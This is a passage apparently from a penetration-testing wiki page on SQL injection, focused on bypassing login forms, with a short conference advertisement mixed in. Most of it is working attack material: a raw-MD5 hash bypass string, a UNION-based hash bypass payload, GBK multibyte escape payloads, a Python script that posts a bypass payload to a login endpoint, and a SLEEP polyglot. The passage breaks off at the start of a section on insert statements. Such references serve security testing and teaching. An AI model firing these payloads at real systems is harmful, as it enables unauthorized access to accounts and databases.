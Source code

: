 Or you will find a lot of tricks regarding: MySQL, PostgreSQL, Oracle, MSSQL, SQLite and HQL in https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

​​​​​RootedCON is the most relevant cybersecurity event in Spain and one of the most important in Europe. With the mission of promoting technical knowledge, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.
LogoRootedCONRootedCON
Authentication bypass

List to try to bypass the login functionality:
pageLogin bypass List
Raw hash authentication Bypass

"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"

This query showcases a vulnerability when MD5 is used with true for raw output in authentication checks, making the system susceptible to SQL injection. Attackers can exploit this by crafting inputs that, when hashed, produce unexpected SQL command parts, leading to unauthorized access.

md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!

Injected hash authentication Bypass

admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'

Recommended list:

You should use as username each line of the list and as password always: Pass1234.
(This payloads are also included in the big list mentioned at the beginning of this section)
1KB
sqli-hashbypass.txt
GBK Authentication Bypass

IF ' is being scaped you can use %A8%27, and when ' gets scaped it will be created: 0xA80x5c0x27 (╘')

%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --

Python script:

import requests
url = "http://example.com/index.php" 
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3') 
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"} 
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url}) 
print r.text

Polyglot injection (multicontext)

SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

Insert Statement
Modify password of existing object/user

To do so you should try to create a new object named as the "master object" (probably admin in case of users) modifying something:
